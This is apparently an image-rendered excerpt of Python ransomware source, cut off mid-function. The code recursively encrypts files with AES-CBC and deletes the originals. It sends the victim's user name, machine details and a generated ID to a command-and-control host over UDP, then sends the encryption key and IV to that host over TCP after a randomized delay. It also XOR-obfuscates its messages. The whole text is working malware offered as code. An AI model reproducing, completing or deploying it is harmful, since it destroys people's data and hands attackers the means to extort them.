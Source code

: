 ```python
    else:
        for filename in filenames:
            encrypt_file(dirpath + '/' + filename, key, iv)


def encrypt_file(path, key, iv):
    bs = AES.block_size
    cipher = AES.new(key, AES.MODE_CBC, iv)
    in_file = open(path, 'rb')
    out_file = open(path + '.enc', 'wb')
    finished = False
    while not finished:
        chunk = in_file.read(1024 * bs)
        if not len(chunk) == 0:
            if len(chunk) % bs != 0:
                padding_length = bs - len(chunk) % bs or bs
                chunk += str.encode(padding_length * chr(padding_length))
                finished = True
            out_file.write(cipher.encrypt(chunk))

    os.remove(path)


def encode_message(message):
    encoded_message = ''
    for i, char in enumerate(message):
        encoded_message += bytes([ord(char) ^ super_secret_encoding_key[(i % 16)]])
    else:
        return encoded_message


def send_status(status):
    message = f"{status} {uid} {getpass.getuser()} {''.join(platform.uname())}"
    encoded_message = encode_message(message)
    udp_socket = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    udp_socket.sendto(encoded_message, c2)


def send_key(key, iv):
    message = f"{uid} " + key.hex() + ' ' + iv.hex()
    encoded_message = encode_message(message)
    tcp_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    tcp_socket.connect(c2)
    print(encoded_message)
    tcp_socket.sendall(encoded_message)
    tcp_socket.close()


if __name__ == '__main__':
    if len(sys.argv) != 2:
        print(f"Usage: {sys.argv[0]} <file/directory>")
        sys.exit(1)
    else:
        path = sys.argv[1]
        hash = hashlib.sha256()
        hash.update(os.urandom(16))
        uid = hash.hexdigest()
        send_status('WAITING')
        time.sleep(random.randint(60, 120))
        send_status('ENCRYPTING')
        key = os.urandom(16)
        iv = os.urandom(16)
        if os.path.isfile(path):
```